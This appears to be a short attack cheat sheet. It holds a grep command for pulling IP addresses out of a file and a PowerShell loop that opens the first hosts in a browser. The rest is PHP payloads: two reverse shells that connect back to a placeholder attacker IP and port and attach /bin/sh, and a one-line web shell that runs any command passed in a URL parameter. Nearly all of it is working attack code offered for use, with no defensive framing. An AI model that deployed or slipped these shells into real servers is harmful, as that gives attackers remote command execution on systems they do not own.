 1. Find all IPs in file: `grep -oP '(\d{1,3}\.){3}\d{1,3}' 80.txt > ips.txt`
2. (Get-Content "80.txt")[0..10] | ForEach-Object { Start-Process "http://$_" }
3. <?php
$ip = 'YOUR_IP';  // Replace with your IP
$port = YOUR_PORT;  // Replace with your port
$sock = fsockopen($ip, $port);  // Connect to your machine
exec("/bin/sh -i <&3 >&3 2>&3");  // Execute a shell
?>
<?php
$ip = 'YOUR_IP';  // Your IP address
$port = YOUR_PORT;  // Your listening port

$sock = fsockopen($ip, $port);  // Open socket to your machine
$proc = proc_open('/bin/sh', [
    0 => $sock,  // Input
    1 => $sock,  // Output
    2 => $sock   // Error
], $pipes);

// Keep the socket open until the connection is closed
proc_close($proc);
?>
//simple php shell
<?php
system($_GET['cmd']);
?>